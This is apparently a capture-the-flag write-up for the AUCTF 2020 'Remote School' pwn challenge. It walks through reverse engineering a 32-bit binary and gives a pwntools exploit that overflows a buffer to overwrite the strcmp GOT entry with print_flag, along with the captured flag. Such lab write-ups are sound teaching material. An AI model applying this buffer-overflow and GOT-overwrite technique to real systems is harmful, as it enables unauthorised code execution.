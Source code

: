 # AUCTF 2020

## Remote School

> 960
>
> Dear Student,
>
> Due to COVID-19 concerns our curriculum will be moving completely to online courses... I know we haven't even started our school year yet so this may come as a shock. But I promise it won't be too bad! You can login at challenges.auctf.com 30013.
>
> Best, Dean of Eon Pillars
> 
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
> 
> [online](online)

Tags: _pwn_

### Introduction

I'm a little stumped why this was the least solved pwn.


### Research

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

PIE enabled, however the challenge server does not have ASLR enabled.

Basically, choose your own adventure.

> To test without disabling ASLR systemwide type: `setarch $(uname -m) -R ./exploit.py`)
> 
> Since no ASLR and x86 (32-bit) we can assume a base process address of `0x56555000`.


#### Decompile with Ghidra

Three functions of interest.

Just need to call `print_flag`:

![](./print_flag.png)

Looks like a basic buffer overflow vulnerability that will write any value to any writable location.  Just need to find a way to call `test`:

![](./test.png)

How to call `test`:

![](./class_hacker.png)


### Exploit

#### Attack Plan

1. Attend "Hacker" class
2. Pass _the_ `test`
3. Get the flag

#### Attend "Hacker" class

```
# ./online
Welcome to your new online class!
We here, at Eon Pillars, we think Zoom is trash and prefer to have our lessions via command line!
May I get your name?
	Name: foobar
Thanks! It is nice to meet you foobar!

Well enough of that let's start class ... What should we do?
> [? for menu]: ?

~~Eon Pillars help menu~~

help: Print help menu
attend <class>: go to class
study <class>: study for class
list: list classes
stats: check stats
grades: check grades
quit: Exit Terminal

What should we do?
> [? for menu]: list classes
You have these classes:
	Algebra
	CompSci
What should we do?
> [? for menu]:
```

This may be enough info to guess `attend Hacker`, if not, try `strings`, or take a look at `cmd_attend` calling `cmd_dispatch`.

`cmd_dispatch` is passed a pointer to a table of pointers pairs.  The first pointer is to a string that is used to check for a correct command, and the second is a pointer to a function to call for that command.

`classtable`:

```
00013ec0 e0              undefined1E0h                     [0]           ?  ->  000120e0 
00013ec1 20              undefined120h                     [1]
00013ec2 01              undefined101h                     [2]
00013ec3 00              undefined100h                     [3]
00013ec4 2f              undefined12Fh                     [4]           ?  ->  0001192f
00013ec5 19              undefined119h                     [5]
00013ec6 01              undefined101h                     [6]
00013ec7 00              undefined100h                     [7]
00013ec8 e8              undefined1E8h                     [8]           ?  ->  000120e8
00013ec9 20              undefined120h                     [9]
00013eca 01              undefined101h                     [10]
00013ecb 00              undefined100h                     [11]
00013ecc 67              undefined167h                     [12]          ?  ->  00011967
00013ecd 19              undefined119h                     [13]
00013ece 01              undefined101h                     [14]
00013ecf 00              undefined100h                     [15]
00013ed0 f0              undefined1F0h                     [16]          ?  ->  000120f0
00013ed1 20              undefined120h                     [17]
00013ed2 01              undefined101h                     [18]
00013ed3 00              undefined100h                     [19]
00013ed4 9f              undefined19Fh                     [20]          ?  ->  0001199f
00013ed5 19              undefined119h                     [21]
00013ed6 01              undefined101h                     [22]
00013ed7 00              undefined100h                     [23]
```

`0x13ec0` -> `0x120e0` in the table above compares with the table below:

```
000120e0 41 6c 67 65 62 72 61 00      ds         "Algebra"
000120e8 43 6f 6d 70 53 63 69 00      ds         "CompSci"
000120f0 48 61 63 6b 65 72 00         ds         "Hacker"
```

If there is a match then the next address is called:

```
uVar2 = (**(code **)(param_2 + local_18 * 8 + 4))(local_10,local_3c);
```

Code to navigate to `class_hacker`:

```
#!/usr/bin/env python3

from pwn import *

p = process('./online')
#p = remote('challenges.auctf.com', 30013)

p.recvuntil('Name: ')
p.sendline("Fuck you. That's my name. You know why, mister? You drove a Hyundai to get here. I drove an eighty-thousand dollar BMW. THAT'S my name.")
p.recvuntil('menu]: ')
p.sendline('attend Hacker')
p.recvuntil('Welcome!\n')
```

#### Pass _the_ `test`

```
baseproc = 0x56555000
binary = ELF('online')

payload  = 2048 * b'A'
payload += p32(baseproc + binary.symbols['print_flag'])
payload += p32(baseproc + binary.got['strcmp'])
p.sendline(payload)
```

`class_hacker` just takes our input and calls `test`.  The `payload` just overflows `local_814` into `local_14` and `*local_10`.  Whatever is in `local_14` will be written to whatever `*local_10` points to.

By overwriting the `strcmp` GOT entry with the address of `print_flag`, the next time `strcmp` is called, `print_flag` is really called, and we get the flag.

Grade: A+


#### Get the flag

```
p.recvuntil('menu]: ')
p.sendline("give us the flag")
p.stream()
```

Any input will trigger `strcmp` and deliver the flag:

```
[+] Opening connection to challenges.auctf.com on port 30013: Done
[*] '/pwd/datajerk/auctf2020/remote-school/online'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
auctf{1_hope_you_l1ked_my_g@m3_2321}
```

Flag: `auctf{1_hope_you_l1ked_my_g@m3_2321}`

